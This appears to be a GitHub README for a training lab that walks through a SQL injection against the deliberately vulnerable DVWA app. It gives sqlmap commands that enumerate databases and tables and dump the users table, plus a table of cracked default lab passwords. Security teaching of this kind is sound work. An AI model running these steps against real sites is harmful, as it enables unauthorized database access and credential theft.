 # Conducting-an-SQL-Injection

# SQL Injection Demonstration using DVWA and sqlmap

This repository provides a step-by-step educational demonstration of conducting a SQL Injection attack using Damn Vulnerable Web Application (DVWA) and `sqlmap`. **This lab is for educational and awareness purposes only. Do not use these techniques on unauthorized systems.**

---

## ⚠️ Disclaimer
This demonstration is intended strictly for ethical learning and should only be performed in a controlled lab environment. Unauthorized access to computer systems is illegal.

---

## 🧰 Tools Used
- Metasploitable 2 (Hosting DVWA)
- DVWA (Damn Vulnerable Web App)
- Kali Linux / Parrot OS (Attacker Machine)
- Burp Suite (for HTTP interception)
- sqlmap (for automated SQL Injection)

---

## 📝 Steps

1. **Start DVWA on Metasploitable 2 VM**  
2. **Access DVWA from attacker’s browser**:  
   `http://<target-ip>/dvwa`
3. **Submit a User ID to generate a query** (e.g., ID = 2)
4. **Intercept the request using Burp Suite**  
5. **Configure browser to use Burp proxy (127.0.0.1:8080)**
6. **Submit form to capture the request in Burp Suite**
7. **Copy URL and Cookie from intercepted request**
8. **Launch `sqlmap`**:  
   ```bash
   sqlmap -u "<URL>" --cookie="<cookie>"
   ```
9. **Let sqlmap detect database type (e.g., MySQL)**
10. **View discovered server info & injection points**
11. **Enumerate databases**:  
    ```bash
    sqlmap -u "<url>" --cookie="<cookie>" --dbs
    ```
12. **Enumerate tables in DVWA DB**:  
    ```bash
    sqlmap -u "<url>" --cookie="<cookie>" -D DVWA --tables
    ```
13. **List columns in `users` table**:  
    ```bash
    sqlmap -u "<url>" --cookie="<cookie>" -D DVWA -T users --columns
    ```
14. **Dump data (e.g., usernames and password hashes)**:  
    ```bash
    sqlmap -u "<url>" --cookie="<cookie>" -D DVWA -T users --dump
    ```
15. **Let sqlmap attempt password cracking (dictionary attack)**

---

## 🔐 Sample Results

| Username | Password     |
|----------|--------------|
| admin    | password     |
| gordonb  | abc123       |
| 1337     | charley      |
| pablo    | letmein      |
| smithy   | password     |

---

## 📂 Output
You will get detailed logs and dumped credentials from sqlmap. These help demonstrate why input validation, parameterized queries, and sanitization are critical in securing web apps.

---

## 📚 Learn More
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [sqlmap Documentation](http://sqlmap.org/)
- [DVWA GitHub](https://github.com/digininja/DVWA)

